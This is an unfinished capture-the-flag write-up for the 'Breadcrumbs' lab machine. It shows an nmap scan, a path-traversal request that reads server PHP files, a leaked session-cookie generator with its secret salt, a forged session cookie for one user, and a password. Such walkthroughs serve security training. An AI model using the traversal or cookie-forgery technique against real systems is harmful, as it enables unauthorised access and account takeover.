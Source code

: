 
# Beardcrumbs
IP : 10.10.10.228
OS : windows

## Recon
nmap scan 
```bash
nmap -sV -sC -p- -oA nmap breadcrumbs.htb
```
nmap output 

```bash
Nmap scan report for breadcrumbs.htb (10.10.10.228)  
Host is up (0.032s latency).  
Not shown: 65520 closed ports  
PORT      STATE SERVICE       VERSION  
22/tcp    open  ssh           OpenSSH for\_Windows\_7.7 (protocol 2.0)  
| ssh-hostkey:  
|   2048 9d:d0:b8:81:55:54:ea:0f:89:b1:10:32:33:6a:a7:8f (RSA)  
|   256 1f:2e:67:37:1a:b8:91:1d:5c:31:59:c7:c6:df:14:1d (ECDSA)  
|\_  256 30:9e:5d:12:e3:c6:b7:c6:3b:7e:1e:e7:89:7e:83:e4 (ED25519)  
80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)  
| http-cookie-flags:  
|   /:  
|     PHPSESSID:  
|\_      httponly flag not set  
|\_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1  
|\_http-title: Library  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
443/tcp   open  ssl/ssl       Apache httpd (SSL-only mode)  
| http-cookie-flags:  
|   /:  
|     PHPSESSID:  
|\_      httponly flag not set  
|\_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1  
|\_http-title: Library  
| ssl-cert: Subject: commonName=localhost  
| Not valid before: 2009-11-10T23:48:47  
|\_Not valid after:  2019-11-08T23:48:47  
|\_ssl-date: TLS randomness does not represent time  
| tls-alpn:  
|\_  http/1.1  
445/tcp   open  microsoft-ds?  
3306/tcp  open  mysql?  
| fingerprint-strings:  
|   NULL:  
|\_    Host '10.10.14.200' is not allowed to connect to this MariaDB server  
5040/tcp  open  unknown  
7680/tcp  open  pando-pub?  
49664/tcp open  msrpc         Microsoft Windows RPC  
49665/tcp open  msrpc         Microsoft Windows RPC  
49666/tcp open  msrpc         Microsoft Windows RPC  
49667/tcp open  msrpc         Microsoft Windows RPC  
49668/tcp open  msrpc         Microsoft Windows RPC  
49669/tcp open  msrpc         Microsoft Windows RPC  
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
SF-Port3306-TCP:V=7.91%I=7%D=5/11%Time=609A33A7%P=x86\_64-pc-linux-gnu%r(NU  
SF:LL,4B,"G\\0\\0\\x01\\xffj\\x04Host\\x20'10\\.10\\.14\\.200'\\x20is\\x20not\\x20allo  
SF:wed\\x20to\\x20connect\\x20to\\x20this\\x20MariaDB\\x20server");  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


Lets start by looking at the web service. the HTTP and HTTPS is the same web service.
Very simple web service which allows up to look up book by title or author. 
Start up burp and lets look at how the request to the service look like. 
We see the post request made to the service

```html
title=te&author=&method=0
```

Lets try and edit this request

After a bit of playing around i found this request
Changing the request to the method above allow us to read files on the web services.
```html
book=../index.php&method=1
```

 Lets see if we can find anything of value. 

```html
HTTP/1.1 200 OK
Date: Tue, 11 May 2021 08:33:48 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
X-Powered-By: PHP/8.0.1
Content-Length: 220
Connection: close
Content-Type: text/html; charset=UTF-8

<br />
<b>Warning</b>:  file_get_contents(../books/../php.conf): Failed to open stream: No such file or directory in <b>C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php</b> on line <b>28</b><br />
false
```

Look at the response we get an idea of the folder structure. 
We are currently acting as www-data user and the bookController.php directory path. 

```html
book=../portal/cookie.php&method=1
```

I find a directory called portal,here we can go to cookie.php 
```php
<?php\\r\\n\\/\*\*\\r\\n \* @param string $username  Username requesting session cookie\\r\\n \* \\r\\n \* @return string $session\_cookie Returns the generated cookie\\r\\n \* \\r\\n \* @devteam\\r\\n \* Please DO NOT use default PHPSESSID; our security team says they are predictable.\\r\\n \* CHANGE SECOND PART OF MD5 KEY EVERY WEEK\\r\\n \* \*\\/\\r\\nfunction makesession($username){\\r\\n    $max = strlen($username) - 1;\\r\\n    $seed = rand(0, $max);\\r\\n    $key = \\"s4lTy\_stR1nG\_\\".$username\[$seed\].\\"(!528.\\/9890\\";\\r\\n    $session\_cookie = $username.md5($key);\\r\\n\\r\\n    return $session\_cookie;\\r\\n}"
go there and create a new user.
```


Paul phpsessid
```php
paul47200b180ccd6835d25d034eeb6e6390
```


writeups : Password: p@ssw0rd!@#$9890./
https://fdlucifer.github.io/2021/02/23/breadcrumbs/